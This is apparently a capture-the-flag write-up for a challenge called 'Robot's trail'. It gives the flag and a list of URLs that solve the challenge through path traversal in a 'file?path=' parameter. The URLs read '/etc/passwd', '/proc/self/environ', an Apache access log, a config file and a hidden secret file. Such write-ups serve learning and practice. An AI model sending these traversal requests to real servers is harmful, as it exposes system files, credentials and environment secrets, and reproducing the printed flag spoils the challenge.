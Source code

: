 # Robot's trail


# Flag : 
citadel{p4th_tr4v3rs4l_m4st3ry_4ch13v3d}

list of urls to get the flag : 


https://therobotstrail.citadel.cryptonitemit.in/robots.txt



https://therobotstrail.citadel.cryptonitemit.in/file?path=../../etc/passwd

https://therobotstrail.citadel.cryptonitemit.in/file?path=/var/www/html/config.php:/home/webadmin:/bin/bash

https://therobotstrail.citadel.cryptonitemit.in/file?path=/var/log/apache2/access.log

https://therobotstrail.citadel.cryptonitemit.in/file?path=//proc/self/environ

https://therobotstrail.citadel.cryptonitemit.in/file?path=/home/ctf/.secret

https://therobotstrail.citadel.cryptonitemit.in/file?path=/home/ctf/.secret/flag.txt